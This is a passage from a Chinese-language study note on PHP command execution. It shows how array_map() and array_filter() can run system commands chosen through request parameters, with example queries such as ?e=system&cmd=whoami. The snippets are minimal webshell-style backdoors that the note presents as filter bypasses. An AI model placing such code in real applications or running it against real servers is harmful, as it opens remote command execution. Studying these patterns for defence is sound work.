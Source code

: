 <img src="../../images/8-17-afternoon/create_function.png" alt="create_function" style="zoom: 50%;" />

###### ⑤array_map()

* 将**用户自定义函数**作用于数组的每个值上，并**返回**用户自定义函数作用后的带有新值的数组，起到绕过作用

* ```php
  <?php
  // ?e=system&cmd=whoami&ip=ipconfig
  $func1 = $_REQUEST['e'];
  $cmd = $_REQUEST['cmd'];
  $ip = $_REQUEST['ip'];
  $array[0] = $cmd;
  $array[1] = $ip;
  $new_array = array_map($func1,$array);
  ?>
  ```

  ![array_map](../../images/8-17-afternoon/array_map.png)

###### ⑥array_filter()

* 依次将array数组中的每个值传递到**回调函数**，如果返回true，则array数组的当前值会被**包含在返回的结果数组**中

* ```php
  <?php
  //?f=system&who=whoami
  $who = $_REQUEST['who'];
  $array1 = array($who);
  $func2 = $_REQUEST['f'];
  @array_filter($array1,$func2);
  ?>
  ```
